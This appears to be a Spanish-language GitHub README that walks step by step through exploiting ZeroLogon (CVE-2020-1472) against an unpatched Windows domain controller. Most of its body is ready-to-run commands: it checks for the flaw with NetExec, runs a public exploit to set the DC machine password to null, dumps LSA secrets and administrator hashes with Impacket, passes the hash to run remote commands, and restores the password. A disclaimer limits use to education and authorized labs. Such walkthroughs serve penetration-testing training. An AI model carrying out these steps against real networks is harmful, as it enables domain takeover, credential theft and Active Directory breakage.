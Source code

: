 # 📌 Ataque ZeroLogon (CVE-2020-1472)

Este repositorio documenta paso a paso cómo ejecutar el ataque **ZeroLogon** utilizando `NetExec` (antes CrackMapExec), el exploit de [VoidSec](https://github.com/VoidSec/CVE-2020-1472) y herramientas de Impacket.

---

## ⚠️ Importante

> Esta guía es solo para fines **educativos** y debe usarse únicamente en laboratorios controlados con permiso explícito. **NO** ejecutes este procedimiento en redes productivas.

---

## ⚙️ Requisitos

- Controlador de dominio sin parches para CVE-2020-1472.
- Máquina atacante con:
  - Linux o WSL.
  - Python 3.
  - NetExec (`nxc`), Impacket y Git instalados.

---

## 🧭 Paso a paso del ataque

### 1. Verificar conectividad SMB con el DC

```bash
nxc smb [IP_DEL_DC]
```

Repetir si es necesario para confirmar acceso:

```bash
nxc smb [IP_DEL_DC]
```

---

### 2. Explotar ZeroLogon con NetExec

```bash
nxc smb [IP_DEL_DC] -u '' -p '' -M zerologon
```

Este módulo intenta autenticar usando claves nulas y explotar la vulnerabilidad en Netlogon.
CHECKEAR esto y si es vulnerable.... lo siguiente

---

### 3. Clonar el exploit de VoidSec

Clonar repositorio
```bash
git clone https://github.com/VoidSec/CVE-2020-1472
cd CVE-2020-1472
```

Verificar si no debemos instalar algun requisito

```bash
pip install -r requirements.txt
```

---

### 4. Cambiar la contraseña de la cuenta de equipo del DC
```bash
python3 cve-2020-1472-exploit.py
```

O usar argumentos manuales:

```bash
python3 cve-2020-1472-exploit.py -t [IP_DEL_DC] -n [NOMBRE_DEL_DC]
```

---

### 5. Volcar hashes con Impacket

```bash
impacket-secretsdump '[[NOMBRE_DEL_DOMINIO]]/[NOMBRE_DEL_DC]$@[IP_DEL_DC]'
```

Esto permite obtener los secretos de LSA y hash de administrador.

---

### 6. Validar acceso como máquina y luego como administrador 

```bash
nxc smb [IP_DEL_DC] -u '[NOMBRE_DEL_DC]$' -p '' --lsa
```
Usamos el <pre>--lsa</pre> para dumpear HEX de maquina para recuperar contraseña

Con hash de administrador (por ejemplo):

```bash
nxc smb [IP_DEL_DC] -u '[USUARIO_ADMINISTRADOR]' -H '[HASH_DE_ADMINISTRADOR]' --lsa
```

---

### 7. Restaurar la contraseña original del DC

```bash
python3 reinstall_original_pw.py
```

O con argumentos:

```bash
python3 reinstall_original_pw.py [NOMBRE_DEL_DC]$ [IP_DEL_DC] [HEX_DE_CONTRASEÑA_DEL_DC]
```

---

### 8. Validar acceso final con hash NTLM

```bash
impacket-secretsdump '[[NOMBRE_DEL_DOMINIO]]/[NOMBRE_DEL_DC]$@[IP_DEL_DC]'
```

---

### 9. Ejecutar comando remoto como administrador

```bash
nxc smb [IP_DEL_DC] -u 'administrator' -H '[HASH_DE_ADMINISTRADOR]' -x whoami
```

---

## 🧪 ¿Qué hicimos?

- Usamos `nxc` para aprovechar la vulnerabilidad en Netlogon.
- Reemplazamos la contraseña de la cuenta del DC con una contraseña nula.
- Extraímos hashes y secretos del sistema.
- Accedimos remotamente como administrador de dominio.
- Finalmente restauramos el estado original.

---

## 📚 Referencias

- [ZeroLogon CVE-2020-1472 - NVD](https://nvd.nist.gov/vuln/detail/CVE-2020-1472)
- [VoidSec CVE-2020-1472 Exploit](https://github.com/VoidSec/CVE-2020-1472)
- [NetExec (nxc)](https://github.com/Pennyw0rth/NetExec)
- [Impacket](https://github.com/SecureAuthCorp/impacket)

------

## 🚨 Advertencia

### Riesgo crítico: el AD puede romperse
El exploit ZeroLogon cambia la contraseña de la cuenta de máquina del controlador de dominio. Si no se restaura rápidamente, el controlador ya no podrá autenticarse ni replicarse con otros DCs.

**Esto puede:**
- Romper la replicación del Active Directory.
- Causar fallos en políticas, usuarios y servicios.
- Obligar a restaurar el dominio desde backups.

### 🛑 Siempre restaurá la contraseña original del DC antes de que se sincronice con otros controladores.

---

## 👤 Autor

Explicación elaborada por [Sebastian Peinador](https://www.linkedin.com/in/sebastian-j-peinador/) para propósitos didácticos y de investigación en ciberseguridad ofensiva.
